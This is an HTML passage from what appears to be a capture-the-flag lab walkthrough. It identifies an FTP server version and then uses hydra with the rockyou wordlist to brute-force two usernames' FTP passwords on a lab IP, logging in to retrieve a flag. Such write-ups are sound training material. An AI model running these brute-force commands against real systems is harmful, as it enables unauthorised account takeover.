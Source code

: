 <div class="answer-section">
<strong>Analysis:</strong> The version scan reveals the FTP service is running vsftpd (Very Secure FTP Daemon) version 3.0.5.
</div>

<div class="flag-box">
Answer: vsftpd 3.0.5
</div>

<hr>

<h2>Question 7: FTP Account Flag</h2>

<div class="challenge-section">
<strong>Question:</strong> We learned two usernames using social engineering: eddie and quinn. What is the flag hidden in one of these two account files and accessible via FTP?
</div>

<div class="method-box">
<h4>Methodology</h4>
<p>We'll use hydra to perform brute force attacks against both usernames on the FTP service, then access the accounts to find the flag.</p>
</div>

<div class="command-block">
<strong># Brute force eddie's password</strong><br>
hydra -l eddie -P /usr/share/wordlists/rockyou.txt ftp://10.10.28.88:10021<br>
<strong># Result: Password is "jor***"</strong><br>
<br>
<strong># Brute force quinn's password</strong><br>
hydra -l quinn -P /usr/share/wordlists/rockyou.txt ftp://10.10.28.88:10021<br>
<strong># Result: Password is "and***"</strong>
</div>

<div class="command-block">
<strong># Connect to FTP with discovered credentials</strong><br>
ftp 10.10.28.88 10021<br>
<strong>User:</strong> quinn<br>
<strong>Password:</strong> [REDACTED]<br>
<br>
<strong># List files and download flag</strong><br>
ls<br>
get ftp_flag.txt<br>
exit<br>
<br>
<strong># Read the flag</strong><br>
cat ftp_flag.txt
</div>

<div class="answer-section">
<strong>Analysis:</strong> After successfully brute forcing both accounts, we find that quinn's account contains the flag file. The credentials follow common password patterns found in wordlists.
</div>

<div class="flag-box">
Flag: THM{3214****7098}
</div>
